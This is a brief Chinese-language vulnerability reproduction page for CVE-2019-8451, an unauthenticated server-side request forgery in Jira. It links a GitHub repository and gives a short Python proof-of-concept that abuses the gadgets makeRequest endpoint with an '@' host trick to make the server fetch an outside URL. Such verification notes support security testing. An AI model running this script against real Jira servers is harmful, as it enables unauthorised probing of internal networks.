# （CVE-2019-8451）Jira 未授权 SSRF 漏洞验证

> 原文：[http://book.iwonder.run/0day/Jira/1.html](http://book.iwonder.run/0day/Jira/1.html)

## 一、漏洞简介

（CVE-2019-8451）Jira 未授权 SSRF 漏洞验证

## 二、影响范围

## 三、复现过程

![image](img/b2651dc53b64db9399e5bcfd843ff583.png)

[https://github.com/ianxtianxt/CVE-2019-8451](https://github.com/ianxtianxt/CVE-2019-8451)

```
#coding:utf-8
import requests

host = 'http://xx.xx.xx.xx:8080'
header = {
                        'X-Atlassian-Token': 'no-check',
                        'Connection': 'close'
                }

url = host + '/plugins/servlet/gadgets/makeRequest?url='+host+'@www.baidu.com/'
html = requests.get(url = url,headers = header)
print html.text 
```

